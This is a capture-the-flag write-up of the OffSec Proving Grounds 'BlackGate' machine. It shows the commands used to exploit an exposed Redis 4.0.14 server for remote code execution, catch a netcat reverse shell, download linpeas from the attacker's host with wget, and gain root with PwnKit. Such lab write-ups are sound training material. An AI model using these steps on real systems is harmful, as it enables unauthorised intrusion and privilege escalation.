





# BlackGate
* Origin: Proving Grounds (OffSec)
* Difficulty: Hard(/Intermediate?)
* OS: Linux

## Enumeration
Initial nmap scan showed only port 22 open. Full nmap with UDP was hanging so used rustscan instead:
```
rustscan -a 192.168.230.176
```


Going to poke at Redis on port 6379 for a bit.
```
nc -nv 192.168.230.176
info
```



Standout pieces of info:
* Redis 4.0.14
* Linux 5.8.0-63-generic x86_64
* gcc 10.2.0

## Initial Foothold Through Insecure Redis Server
Doesn't look like we're going to be get anything out of the database just from this. Quick research on the Redis version number shows it's probably vulnerable to RCE (have seen this quite a few times before) using a custom module which can execute arbitrary commands after being uploaded to the Redis server. Tried the exploits from [here](https://github.com/n0b0dyCN/redis-rogue-server) and [here](https://github.com/Ridter/redis-rce)... the first one hung at first so tried with the second using the compiled module from the first and was able to get an interactive shell.
```
python redis-rce.py -r 192.168.230.176 -L 192.168.x.x -f exp.so
```



Ended up switching to a reverse shell by rerunning and using the following netcat because this one was a little glitchy (you can see a random 'r' output in front of the username 'prudence'):
```
rlwrap nc -nvlp 8080
```
A note which addresses the redis vuln we already found is in the prudence user's home directory.

## Privilege Escalation
Machine information:
```
uname -a
Linux blackgate 5.8.0-63-generic #71-Ubuntu SMP Tue Jul 13 15:59:12 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```
Poked around a bit but finding nothing that immediately jumped out, decided to transfer over linpeas to do lazy man's enumeration.

Serve linpeas.sh through python http server on attacking machine:
```
python -m http.server 80
```
Download from target machine:
```
wget http://<attacker IP>/linpeas.sh
```
Nothing groundbreaking stands out, but what eventually ended up being fruitful was PwnKit, a memory exploit for polkit pkexec.



Downloaded the binary from [here](https://github.com/ly4k/PwnKit), transferred to target and ran to get root.



QED
